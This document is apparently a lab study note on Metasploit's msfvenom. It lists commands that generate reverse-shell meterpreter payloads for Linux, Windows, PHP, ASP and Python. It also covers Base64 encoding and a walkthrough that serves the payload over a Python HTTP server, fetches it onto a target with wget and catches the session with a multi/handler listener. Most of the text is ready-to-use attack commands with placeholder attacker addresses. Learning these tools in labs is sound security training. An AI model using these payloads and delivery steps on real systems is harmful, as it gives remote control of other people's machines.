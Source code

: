 ## msfconsole: To generate the payloads
- MsfVenom - a Metasploit standalone payload generator.
- Msfvenom, which replaced Msfpayload and Msfencode, allows you to generate payloads.
- Msfvenom will allow you to access all payloads available in the Metasploit framework. 
- Msfvenom allows you to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.).
- **msfvenom --list** formats command can be used to list supported output formats.

## Encoder: (can be done by msfvenom)
- eg: msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.x.x -f raw -e php/base64
- with the -e parameter. The PHP version of Meterpreter was encoded in Base64

## Handlers: (Listener)
- Similar to exploits using a reverse shell, you will need to be able to accept incoming connections generated by the MSFvenom payload.
- use **exploit/multi/handler** to receive the incoming connection.
- MSFvenom will require a payload, the local machine IP address, and the local port to which the payload will connect.

## Other Payloads:
- Linux Executable and Linkable Format (elf) (Change Permission chmod +x shell.elf &  run this file by typing ./shell.elf)
> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
- Windows
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
- PHP (Remove php comments to make file executable)
> msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
- ASP
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
- Python
> msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py

### Note: All of the examples above are reverse payloads. This means we need to have the exploit/multi/handler module listening on attacking/local machine to work as a handler, need to set up the handler accordingly with the payload, LHOST and LPORT parameters. These values will be the same we have used when creating the msfvenom payload.

## Task1: Create Payload, Transfer to Target VM, Get Meterpreter
- Do ssh to Target VM > ssh username@targetVM_IP > sudo su
- Create Payload on Local VM > msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
- Transfer the payload to Target VM > 
- - a. First Create a server on Local VM > python3 -m http.server 9000 (change permission of file eg. chmod 777 file_name)
- - b. Use on Target VM terminal or in ssh session wget http://LocalVM_IP/file_name.format
- Get a meterpreter session on the target machine > 
- - a. Start the Metasploit handler before executing the transfered payload on target VM: use exploit/multi/handler
- - b. set payloads(Specific to Linux), lhost, lport (check show option) (Use same lport, lhost what used while creating payload)
- - c. run > meterpreter session must have started after executing the "transfered payload" on target VM

 
